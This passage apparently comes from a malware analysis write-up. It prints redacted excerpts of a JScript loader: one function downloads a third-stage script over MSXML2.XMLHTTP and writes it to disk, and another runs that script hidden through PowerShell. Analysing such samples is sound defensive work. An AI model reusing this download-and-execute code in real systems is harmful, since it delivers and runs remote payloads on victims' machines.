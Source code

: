 ```js
//[...REDACTETD...]
var http = WScript.CreateObject("MSXML2.XMLHTTP");

//[...REDACTED...]

// Download the script securely
function DownloadScript(url, path) {
    http.Open("GET", url, false);
    http.Send();

    if (http.Status !== SUCCESS_STATUS) {
        LogError("Download failed with status: " + http.Status);
        return false;
    }

    try {
        var file = fileSystem.CreateTextFile(path, true);
        file.Write(http.ResponseText);
        file.Close();
        return true;
    } catch (e) {
        LogError("Error writing downloaded script: " + e.message);
        return false;
    }
}
//[...REDACTED...]
```

We can reference the [documentation](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/ms759148(v=vs.85)) to confirm this "MSXML2.XMLHTTP" object "provides client-side protocol support for communication with HTTP servers".

Once this 3rd-stage is written to disk, it is executed using the `RunPowerShellScript()` function:

```js
//[...REDACTED...]
var POWERSHELL_CMD = "PowerShell -NoProfile -ExecutionPolicy RemoteSigned -File ";

//[...REDACTED...]

// Execute PowerShell script
function RunPowerShellScript(scriptPath) {
    try {
        var powerShellCommand = POWERSHELL_CMD + "\"" + scriptPath + "\"";
        shell.Run(powerShellCommand, 0, true);
    } catch (e) {
        LogError("Failed to execute PowerShell script: " + e.message);
    }
}

//[...REDACTED...]
```
